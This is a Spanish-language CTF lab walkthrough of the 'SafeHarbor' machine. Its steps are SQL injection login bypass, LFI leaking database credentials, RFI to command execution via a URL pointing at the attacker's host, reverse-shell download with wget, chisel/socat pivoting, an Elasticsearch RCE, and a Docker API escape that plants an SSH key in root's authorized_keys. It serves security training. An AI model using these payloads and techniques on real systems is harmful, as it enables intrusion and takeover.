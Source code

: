 # SafeHarbor 1

Tags: [[_sqli]],[[_lfi]],[[_webExploitation]],[[_proxychains]],[[_pivoting]],[[_api]]

## Primeros pasos
(Reconocimiento).

Primero le acomodamos bien para que agarre una IP (poner modo Bridged).

Organizamos TMUX.
Hacemos un escaneo en la red para determinar la IP de la máquina.
Mediante el OUI reconocemos la máquina que vamos a atacar.

Le hacemos un ping a la máquina. (Está activa o no).
Posible máquina Linux.
Creamos un directorio como la IP o nombre de la máquina.
Ponemos la IP de la máquina en un lugar visible.
Creamos los directorios de trabajo.

Empezamos el escaneo con NMAP.

Buscamos codename con launchpad, un posible Ubuntu Bionic, pero nginx nos da a entender que puede ser un contenedor.

Puertos abiertos.

<span style="color:#ff669c">22</span> - SSH Version 7.6

<span style="color:#ff669c">80</span> - HTTP


## Investigación (Intrusión)
(Reconocimiento/Enumeración).

<span style="color:#ff669c">22</span>.
No poseo credenciales válidas.
Es probable poder enumerar usuarios, cuando tenga algunos, los prueba.

<span style="color:#bef202">Vayamos al 80</span>.
Probemos enumerar usuarios, pero no es posible.


<span style="color:#ff669c">80</span>.
whatweb. Es un nginx, me pide una password, trabaja con PHP.

Pequeño fuzz con NMAP.
<span style="color:#ecacb6">/login.php</span> :    es el login.
<span style="color:#ecacb6">/phpinfo.php</span> :    se ve la información del PHP, como las funciones deshabilitadas.
<span style="color:#ecacb6">/changelog.txt</span>

Desde la web.
Es un panel de inicio de sesión.
Parece que es <span style="color:#ff2dc0">Harbor Back Obline v2</span> 
El código fuente no dice mucho.

<span style="color:#bef202">Vayamos al 22</span>.

Probemos una inyección SQL, probamos
<span style="color:#ecacb6">' or 1=1-- -</span>:    y entramos.

Enumerar la web.
Probamos LFI, pero juguemos en base64, pero nada.
Tratemos de apuntar a los archivos que sí están (welcome, about, etc). Me salen errores si se hace mal el wrapper, pero sí obtengo el base64 de los archivos.
Esto es estupendo, porque puedo ver su código.
Vale, a traernos todos y analizamos.

Tenemos esta información.
<span style="color:#ecacb6">mysqli_connect('mysql', 'root', 'TestPass123!', 'HarborBankUsers')</span>
Pero poco más.

Probar RFI, SSRF en la URL.
Confirmamos la whitelist, porque si pongo, con base64, <span style="color:#ecacb6">https:google.com/welcome</span> me detecta el welcome, pero me salen errores (obvio, ahí no existe xd).

Esto me hace pensar en crear un archivo en mi máquina que se llame igual, para ver si lo representa.
Me dice que hay errores, seguro que es porque está tratando de interpretar el PHP, y como no hace nada, truena (yo tengo los archivos reales en mi equipo, si hago mi server ahí, funciona con normalidad). Podría modificar el welcome real que tengo para hacer cambios mínimos pero significativos.

Pensando, solo hace falta crear un PHP llamado igual, para que pueda poner como parámetro un comando.
Así se ve en la URL: <span style="color:#ecacb6">http://192.168.0.32/OnlineBanking/index.php?p=http://192.168.0.13/balance&cmd=id</span>

Intentamos acceder al sistema.
Está complicado, así que usamos el script de PHP, de MokeyPentester. Y pa deeentro.

Importante. Estando dentro, uso <span style="color:#ff2dc0">wget</span> para descargar el PHP de la reverse, lo ejecutamos para mandarnos una <span style="color:#ff2dc0">shell</span> independizada.

## Escalada

Enumerar todo el sistema.
Efectivamente, .

Estoy en un segmento raro, seguramente haya algún otro equipo configurado en la misma red.
Dicho equipo puede ser la máquina real u otro contenedor.

Podría pensar en usar chisel.
Porque vemos con arp -a y arp -n que está un servidor de mysql, y nosotros tenemos credenciales.

Así que vamos a usar chisel y tener comunicación en los equipos.

Usamos las credenciales de acceso a la base datos y nos conectamos al host debido.
Las contraseñas que nos dan son de acceso en el panel, no son para otras cosas.

Así que toca enumerar los demás equipos, al hacer el escaneo de los puertos más comunes de los posibles equipos (<span style="color:#ecacb6">172.20.0.{}</span>, con xargs), al volver a hacer un arp -n se ven más equipos.

<span style="color:#bef202">Enumerando equipos.</span> (<span style="color:#ecacb6">172.20.0.*</span>)

<span style="color:#ecacb6">124</span>
<span style="color:#ff669c">9200</span> - wap-wsp
<span style="color:#ff669c">9300</span> - vrace
En la web
En 9300 no se ve mucho.
En 9200 se ve que obtengo datos de alguna api. Si yo pongo algo en la URL, me lo representa, dependiendo de qué es, me manda mensajes de error. Si añado <span style="color:#ecacb6">_search?</span>, me salen más datos, es el parámetro para buscar.

Usamos el RCE en searchsploit, pasamos por el proxy y le pasamos la IP.
Entramos como root (nos mandamos una reverse shell, con socat, no jala). 
Los ping sí funcionan.

Vemos el historial de root, y hace curl a <span style="color:#ecacb6">http://172.20.0.1:2375/</span> :    puerto de Docker, ojito.
Lo hacemos en la misma máquina y nos muestra cosas.
Seguimos esto: https://madhuakula.com/content/attacking-and-auditing-docker-containers-using-opensource/attacking-docker-containers/misconfiguration.html para un poco más de información.


Podríamos llegar a ver las imágenes de docker.

Pero pasando desde mi máquina por el primer túnel, no llegamos (<span style="color:#379075">es la máquina real, quiero pensar que es por eso que no la vemos aunque tengamos todo el segmento</span>).
Debemos hacer otro para tener conectividad, porque es la otra máquina la que sí llega. Debemos conectarnos al nodo más cercano (<span style="color:#ecacb6">172.20.0.4</span>) a un puerto (como 6565), que con socat redirigiré a mi máquina.
Abriré el 8888.

En la máquina <span style="color:#ecacb6">172.20.0.124</span>
<span style="color:#88c425">./chisel client 172.20.0.4:6565 R:8888:socks</span>

En la máquina <span style="color:#ecacb6">172.20.0.4</span>
<span style="color:#88c425">./socat TCP-LISTEN:6565,fork TCP:192.168.0.13:1234</span> :    mi puerto de mi servidor, siempre es ese donde recibo las conexiones.

Recordemos desactivar el <span style="color:#ff2dc0">dynamic_chain</span> y desactivar el <span style="color:#ff2dc0">strict_chain</span>.


Ahora que llegamos, enumeremos la API de docker.
Vemos que al enumerar imágenes, vemos una que tiene <span style="color:#ecacb6">debian:jessie</span>

Pero intentemos crear un contenedor, con una montura para montar la raíz de la máquina real, en un contenedor que yo despliegue. 

Checar.
https://book.hacktricks.xyz/network-services-pentesting/2375-pentesting-docker :    la parte de <span style="color:#ecacb6">Curl</span>.
Vamos ejecutando cada línea de las peticiones con curl para crear un contenedor.

1.-
Ajustar todo bien
+La IP de la máquina víctima y el puerto
+El http://... entre doble comillas
+Poner una imagen existente, como "alpine:3.2".

Nos da un identificador: <span style="color:#ecacb6">321f976698dbe4245d5654ec9db59a3683728a5b1491915d9b9ea49cff1f2b27</span>
2.-
+La IP de la máquina y el puerto.
+Colocamos el identificar anteriormente obtenido.

3.-
+La IP de la máquina y el puerto.
+Nuevamente colocamos el identificar anteriormente obtenido.
+El comando a ejecutar será, primeramente,
"ls -la /mnt/root" :    que será el de la máquina real (<span style="color:#379075">eso tratamos de ver</span>), porque es una montura.

Me devuelve un identificador, con el cual podré ver el output del comando.

4.-
+La IP de la máquina y el puerto.
+Colocamos el identificador obtenido para ver el output del comando.
+Colocar: <span style="color:#ecacb6">--output -</span> al final del comando, para depositar el output.

Y logramos ver el contenido.

Nota. Debemos crear el identificador del comando cada vez.

¿Qué podemos hacer pues?
Introducir mi clave pública en el .ssh de root en la máquina real, ahora que ejecutamos comandos en ella.
Me copio mi clave pública.
En el comando a ejecutar le hago un echo (<span style="color:#379075">la clave sin comillas</span>) para depositarlo en <span style="color:#ecacb6">/mnt/root/.ssh/authorized_keys</span>

Una vez esto, nos conectamos y pa deeeentro.
FIN.

<span style="color:#ecacb6">3</span>
<span style="color:#ff669c">9600</span> - micromuse-ncpw

